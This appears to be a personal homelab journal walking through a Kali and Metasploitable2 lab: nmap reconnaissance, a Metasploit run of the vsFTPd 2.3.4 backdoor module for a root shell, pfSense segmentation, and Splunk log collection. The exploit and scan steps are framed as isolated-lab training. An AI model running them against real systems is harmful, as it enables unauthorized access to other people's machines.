

# Homelab Blueprint & Learning Journal

This document tracks the creation, evolution, and exercises performed in my self-hosted cybersecurity homelab. It includes setup steps, hands-on experiments, troubleshooting, and takeaways from each phase.

<hr>

## Table of Contents

- [Phase 1 – Core Components](#phase1)
  - [Topology – Core Setup](#Topology_Core_Setup)
- [Phase 2 – Network Discovery](#phase2)
- [Phase 3 – Initial Exploitation](#phase3)
- [Phase 4 - pfSense Firewall Installation and Network Segmentation](#phase4)
  - [Topology – With pfSense Firewall Only](#Topology_pfSense_Only)
- [Phase 5 – Enterprise SIEM Setup & Deployment (Splunk on Windows VM)](#phase5)
- [Phase 6 - Splunk & pfSense Log Integration and Tuning](#phase6)
  - [Topology – After SIEM & Log Integration](#Topology_After_SIEM_and_Log_Integration)
- [Next Up](#Next_Up)

<details>
  <summary><strong>Deprecated / Experimental Phases</strong></summary>

- [Phase 4.8 – Temporary SIEM Deployment on Kali (Retired)](#phase4.8)
- [Phase 4.9 - Experimental .zsh_history Monitoring (Deprecated)](#phase4.9)

</details>

<hr>

<h1 align="center"><strong>Phase 1 - Core Components</strong></h1> <a name="phase1"></a>

### Objective  
Set up a self-contained, safe lab environment for cybersecurity testing and exploration.

### Overview  
This phase focuses on installing and configuring essential components: Kali Linux as the attacker machine and Metasploitable2 as the vulnerable target, both running within a host-only network using VMware Workstation.

- Downloaded **VMware Workstation**
- Deploy **Kali Linux VM**
- Installed **Metasploitable2 (Target)**
- Configured both VMs to run on **Host-Only networking** for isolation and safety

<hr>
<a name="Topology_Core_Setup"></a><h1 align="center"><strong>Topology – Core Setup</strong></h1>

<p align="center">
  
</p>

<hr>
<a name="phase2"></a><h1 align="center"><strong>Phase 2 - Identifying the Target Machine (Network Discovery)</strong></h1> 

### Objective  
Identify live hosts and services within the isolated lab environment to simulate internal reconnaissance.

### Overview  
Using tools like `ifconfig` and `nmap`, this phase simulates an attacker scanning a local network to discover targets and enumerate exposed ports and services, laying the groundwork for future exploitation.

### Steps

#### 1. Verify both VMs are running and on the same network.

#### 2. Open a terminal on the **Kali Linux** VM and identify the local IP address and subnet:
   ```bash
   ifconfig
   ```

#### 3. Run a **ping sweep** on the subnet to discover live hosts:
   ```bash
   nmap -sn 192.168.56.0/24
   ```

#### 4. Once the **Metasploitable2** IP address is identified, run a basic **port scan**:
   ```bash
   nmap [target_ip]
   ```

#### 5. Enumerate running services and their versions:
   ```bash
   nmap -sV [target_ip]
   ```


<p align="center"><em>At this stage, the vulnerable system has been identified and its services have been enumerated. This completes the initial reconnaissance phase. Next, we’ll begin exploring exploitation techniques using Metasploit.</em></p>

<hr>
<a name="phase3"></a><h1 align="center"><strong>Phase 3 – Initial Exploitation with Metasploit</strong></h1> 

### Objective  
Leverage known vulnerabilities to gain unauthorized access to the target system using Metasploit Framework.

### Overview  
This phase simulates a real-world attack by exploiting the vulnerable vsFTPd service on Metasploitable2, providing experience with vulnerability identification, module selection, and command execution through a remote shell.

### Steps

#### 1. Identify the vulnerable service from the previous scan:
   - Port 21 is open and running `vsFTPd 2.3.4`, which is known to have a backdoor vulnerability.

#### 2. Launch **Metasploit Framework** from **Kali**:
   ```bash
   msfconsole
   ```

#### 3. Search for the exploit module related to **vsFTPd**:
   ```bash
   search vsftpd
   ```

#### 4. Load the correct exploit module:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   ```

#### 5. Set the target IP address:
   ```bash
   set RHOSTS [target_ip]
   ```

#### 6. Run the exploit:
   ```bash
   exploit
   ```

<p align="center"><em>If successful, this will spawn a root shell on the target system. This is for educational purposes only and should never be performed outside of authorized lab environments.</em></p>

<hr>
<a name="phase4"></a><h1 align="center"><strong>Phase 4 – pfSense Firewall Installation and Network Segmentation</strong></h1>

### Objective  
Introduce a realistic network perimeter using a virtualized firewall (pfSense) to simulate internet-to-internal segmentation, enforce access controls, and monitor attack surface exposure.

### Overview  
This phase adds a pfSense firewall between the external attacker machine (Kali Linux) and the internal lab network (Metasploitable2, Splunk). This mimics a production firewall protecting internal infrastructure from external threat actors. Only specific ports are allowed through, and all traffic is filtered or logged.

### Steps

#### 1. Download **pfSense CE ISO**  
   - Link: [https://www.pfsense.org/download/](https://www.pfsense.org/download/)

#### 2. Create a new VM in VMware Workstation  
   - Mount the pfSense ISO  
   - Assign:
     - `Network Adapter 1 (WAN)` → `Custom: VMnet2`
     - `Network Adapter 2 (LAN)` → `Custom: VMnet3`

<p align="center"><em>You will likely have to enter the VMware virtual network editor to create VMnet2 and VMnet3.</em></p>

#### 3. Install pfSense and assign interfaces
   - `em0` → WAN (VMnet2)  
   - `em1` → LAN (VMnet3)

#### 4. Set static IP addresses using pfSense CLI **(Option 2):**
   ```text
   WAN (em0): 192.168.20.1/24  
   LAN (em1): 192.168.1.1/24
   ```

#### 5. Disable VMware DHCP on **VMnet2** and **VMnet3**
   - Open the **Virtual Network Editor** in VMware Workstation
   - Select both `VMnet2` and `VMnet3`
   - Uncheck **“Use local DHCP service to distribute IP address”** for both
   - Click **Apply** to save changes

#### 6. Configure **Kali Linux** (Attacker VM)
   - Connect Kali’s network adapter to `VMnet2`
   - Assign a static IP:
     ```bash
     sudo ip addr add 192.168.20.10/24 dev eth0
     sudo ip route add default via 192.168.20.1
     ```
   - Verify connectivity:
     ```bash
     ping 192.168.20.1
     ```

#### 7. Configure Metasploitable2 **(Target VM)**
   - Connect Metasploitable2’s network adapter to `VMnet3`
   - On boot, it should automatically get an IP from pfSense (e.g., `192.168.1.100`)
   - Might have to disable pfSense firewall
   - Confirm IP and gateway:
     ```bash
     ifconfig
     ping 192.168.1.1
     ```

#### 8. Re-enable pfSense filtering **(if previously disabled)**
   - If you used `pfctl -d` to troubleshoot earlier, re-enable packet filtering:
     ```bash
     pfctl -e
     ```
<hr>
<a name="#Topology_pfSense_Only"><h1 align="center"><strong>Topology – With pfSense Firewall</strong></h1>

<p align="center">
  
</p>

<hr>

<hr>
<a name="phase4.8"></a><h1 align="center"><strong>Phase 4.8 – Temporary SIEM Deployment on Kali (Retired)</strong></h1> 
<p align="center"><em>This was the first iteration of deploying Splunk in the lab environment, hosted temporarily on Kali Linux. While functional for limited local testing, this setup does not reflect operational best practices. It has been fully replaced by the Windows-based deployment introduced in Phase 5.</em></p>

<details>


<h3 align="center"><em>The content below remains as reference only.</em></<h3>


### Objective  
Install and configure Splunk on Kali Linux to serve as a SIEM platform for future log collection and monitoring.

### Overview  
Splunk will be used to ingest and analyze logs from the lab environment, enabling simulated alerting and incident response workflows. This phase sets the foundation for blue team operations.

<p align="center"><em>This is a phase in the homelab that requires temporary internet access. Splunk is downloaded directly from the official site and installed on the Kali VM. After installation, return the VM to host-only mode to preserve network isolation.</em></p>

### Steps


#### 1. Acquire the `wget` link for the Splunk installer (Linux .deb package):
   ```bash
   wget https://download.splunk.com/products/splunk/releases/9.4.1/linux/splunk-9.4.1-e3bdab203ac8-linux-amd64.deb
   ```

#### 2. Install the downloaded Splunk package:
   ```bash
   sudo dpkg -i splunk-9.4.1-e3bdab203ac8-linux-amd64.deb
   ```

#### 3. Start Splunk for the first time and accept the license:
   ```bash
   sudo /opt/splunk/bin/splunk start --accept-license
   ```

<p align="center"><em>Splunk version numbers and filenames may change over time, adjust the URL and commands accordingly.</p></em>

#### 4. When prompted, set the Splunk admin username and password.

#### 5. Access the Splunk Web Interface from a browser:
   ```bash
   http://kali:8000
   ```

#### 6. **(Optional)** To manually start Splunk after reboot:
   ```bash
   sudo /opt/splunk/bin/splunk start
   ```

#### 7. **(Optional)** To automatically start Splunk on system boot:
   ```bash
   sudo /opt/splunk/bin/splunk enable boot-start
   ```

<p align="center"><em>The firewall is officially up but its difficult to configure it as is, as a result of that we will be going in the direction of creating a SIEM in phase 5 to both configure the firewall and have a place to log data that occurs</em></p>

<hr>
<a name="Topology_Splunk_Installation"></a><h1 align="center"><strong>Topology – After Splunk Installation  </strong></h1> 

<p align="center">
  
</p>
</details>  
<hr>
<a name="phase4.9"></a><h1 align="center"><strong>Phase 4.9 – Experimental .zsh_history Monitoring (Deprecated)</strong></h1>
<p align="center"><em>A quick experiment in terminal command tracking via Splunk file monitoring. Useful for attacker behavior proof-of-concept, but not scalable or reliable as a primary detection method.</em></p>

<details>

### Objective  
Configure Splunk to monitor *.zsh_history* in near real-time on Kali Linux to log and analyze terminal commands as part of simulated blue team operations. This setup captures most user-level shell activity but does not log commands executed within Metasploit (msfconsole) as Metasploit operates in its own interactive shell that does not write to .zsh_history.

### Overview  
By setting up Splunk to watch the *.zsh_history* file, we can track executed terminal commands from the Kali Linux VM. This gives visibility into attacker behavior and supports future correlation and detection use cases. To make logs appear instantly in Splunk, we'll also configure the shell to write history after every command.

### Steps

#### 1. Log in to the Splunk Web Interface:
   ```bash
   http://kali:8000
   ```

#### 2. Click on **Add Data** from the main dashboard.

#### 3. Select **Monitor** as the data input method.

#### 4. Choose **Files and Directories** as the data source.

#### 5. Set the path to monitor:
   ```bash
   /home/kali/.zsh_history
   ```

#### 6. Set the Source Type to:
   ```bash
   zsh_current
   ```

#### 7. Leave the input settings as default, then click **Review** and **Submit**.

#### 8. Click **Start Searching** to go to the Splunk Search & Reporting dashboard.

#### 9. In the search bar, run a query similar to:
   ```bash
   source="/home/kali/.zsh_history" host="kali" sourcetype="zsh_current"
   ```

#### 10. Ensure your shell writes commands to history immediately by running:
    ```bash
    fc -W
    ```

<p align="center"><em>If everything was set up correctly, you should now see your terminal command logs appearing in Splunk. If something isn’t working, navigate to the top right of the Splunk interface and click on Settings. Under Data Inputs, go to Files & Directories, scroll down to find the entry for `/home/kali/.zsh_history`, and delete it. Then, restart the process from Step 1 above to reconfigure the input.</em></p>
</details>  
<hr>

<h1 align="center"><strong>Phase 5 – Windows 10 Splunk SIEM Setup & Deployment</strong></h1> <a name="phase5"></a>

### Objective
Deploy a Splunk instance on a Windows 10 virtual machine to act as the lab’s centralized SIEM platform. This phase focuses on foundational setup: getting the Splunk environment online, ensuring it can be reached from other systems, and preparing it for future log ingestion and firewall integration.


### Overview
With the firewall (pfSense) deployed in Phase 4, we now introduce a Windows 10 machine into the internal (LAN) network. This host serves as both a management interface for pfSense and the primary Splunk server for future log collection, search, and correlation.

### Steps

#### 1. Set Up the Windows 10 Virtual Machine
- Follow the instructions in this video to download and install Windows 10 inside VMware Workstation:  
  [Windows 10 Installation Tutorial (YouTube)](https://www.youtube.com/watch?v=-4c3MO3Hm_c&ab_channel=OnlineTrainingforEveryone)
- **(Optional)** Install VMware Tools for improved usability.
- **(Optional)** Rename the PC to something recognizable, such as `splunk-win10`.

#### 2. Install **Splunk Enterprise**
- On the Windows 10 VM, go to [https://www.splunk.com](https://www.splunk.com) and click **Download Now** for Splunk Enterprise.
- Run the installer with default options.
- Make sure to enable **Splunk startup on reboot** during installation.
- After installation, confirm that Splunk launches successfully.

#### 3. Reconfigure the VM Network
- Shut down the Windows VM.
- In VMware Workstation, change the network adapter from **NAT** to **VMnet3**.
- Boot the VM.
- If asked whether you want the PC to be discoverable on the network, choose **Yes**.

#### 4. Enable Syslog Input in Splunk **(Port 514)**
- On the Windows VM, open a browser and go to:
```bash
http://localhost:8000
```
- Log into the Splunk Web UI.
- Go to the **Settings** menu, then open **Data Inputs**.
- Select **UDP** and click **Add New**.
- For the port, enter:
```bash
514
```
- For the source type, enter:
```bash
syslog
```

#### 5. **(Optional)** Create a Custom Index
- You can create a new index named:
```bash
pfsense
```
- This will make future searches and filtering easier.
- Example search query:
```bash
index=pfsense sourcetype=syslog
```

#### 6. Finalize Logging Setup
- Click **Review** and then **Submit** to finish the logging input setup.
- Splunk is now listening on UDP port 514 and ready to receive syslog data from pfSense in Phase 6.

<hr>
<h1 align="center"><strong>Phase 6 – Splunk & pfSense Log Integration and Tuning</strong></h1> <a name="phase6"></a>

### Objective
Configure pfSense to forward system and firewall logs to the Splunk SIEM installed in Phase 5. This phase focuses on establishing reliable syslog communication, creating a dedicated index for pfSense events, and validating that logs are being received and searchable within Splunk.

### Overview
With Splunk deployed on the internal Windows VM and listening on UDP port 514, this phase enables log forwarding from the pfSense firewall. You’ll configure pfSense to send a variety of event types—system, firewall, DHCP, DNS, and authentication—to Splunk. The phase concludes by validating log ingestion using basic Splunk searches and preparing the environment for future alerting or correlation use cases.

### Steps

Note: Before powering on any devices, start the pfSense VM first. This ensures it properly assigns IP addresses via DHCP and avoids potential network misalignment or reassignment issues.

#### 1. Access the pfSense Web UI from the Windows VM  
- On your Windows Splunk VM, open a browser and navigate to:  
```bash
http://192.168.1.1
```
- Log in using the default credentials:  
```bash
Username: admin  
Password: pfsense
```
- Complete the pfSense setup wizard.

During setup:  
  - Set the **Hostname** and **Domain** to match your lab naming convention (e.g., `fw-core`, `lab.internal`). These values will appear in Splunk logs.  
  - Set the **Timezone** to your local region to keep logs consistent across systems.  
  - On step 4 of 9, leave **WAN** settings as-is. The Kali machine is treated as the external network and doesn't require changes.

*(screenshot placeholder: pfSense setup wizard with hostname and timezone)*

#### 2. Set the DHCP Address Pool  
- In pfSense, go to:  
```bash
Services > DHCP Server > LAN
```
- Check the **DHCP Range** settings for the LAN interface. For example:  
```bash
Range: 192.168.1.100 - 192.168.1.200
```
- Your Splunk VM’s static IP (e.g., `192.168.1.30`) must be outside this range.  
- Click **Save** and then **Apply Changes**.

*(screenshot placeholder: DHCP Server range config)*

#### 3. Assign a Static Mapping to the Windows (Splunk) VM  
- Go to:  
```bash
Status > DHCP Leases
```
- Find the lease for your Windows VM and click **Add Static Mapping** under **Actions**.  
- In the **Static Mapping** screen:  
  - Set the **IP Address** to something permanent and outside the DHCP pool (e.g., `192.168.1.30`)  
  - **(Optional)** update the **Hostname** and add a **Description** to reflect its SIEM role  
- Save the mapping and reboot the Windows VM to verify it retains the assigned IP.

#### 4. Enable Remote Logging in pfSense  
- From the dashboard, go to:  
```bash
Status > System Logs
```
- Click the Settings tab at the top of the page.

#### 5. Configure Remote Log Forwarding to Splunk  
- Enable the checkbox for **Enable Remote Logging**.  
- In the **Remote log servers** field, enter the static IP of the Windows Splunk VM (e.g., `192.168.1.30`).  
- Under **Remote Syslog Contents**, check the following:  
  - **System Events**  
  - **Firewall Events**  
  - **DNS Events**  
  - **DHCP Events**  
  - **General Authentication Events**  
- Click **Save** and then **Apply Changes**.

*(screenshot placeholder: Remote syslog configuration page)*

#### 6. Add a **Windows Firewall Rule** to **Allow Syslog Traffic**
- On the Windows Splunk VM, open:  
```bash
Control Panel > Windows Defender Firewall > Advanced Settings
```
- In the left-hand sidebar, click **Inbound Rules**, then click **New Rule** on the right.
- Choose the following:
  - **Rule Type**: Port
  - **Protocol**: UDP
  - **Specific Port**: 514
- Click **Next**, then choose **Allow the connection**.
- On the final screen, name the rule:  
  **Allow Syslog to Splunk**
- Click **Finish** to apply the rule.

#### 7. Validate Log Reception in Splunk  
- Send a ping or generate simple traffic to your pfSense router from another machine:
```bash
ping 192.168.1.1
```
- On the Splunk Web UI, refresh the **Search & Reporting** dashboard.
- Use this search to check for inbound logs:
```bash
index=* sourcetype=syslog
```
- You should see entries from your pfSense host. If nothing shows, check firewall rules, input settings, and verify port 514 is open.

*(screenshot placeholder: Splunk search with syslog results)*

<hr>
<a name="Topology_After_SIEM_and_Log_Integration"><h1 align="center"><strong>Topology – After SIEM & Log Integration</strong></h1>

<p align="center">
  
</p>

<hr>


<a name="Next_Up"></a><h1 align="center"><strong>Next Up</strong></h1>
- Phase 7 – [Coming Soon]
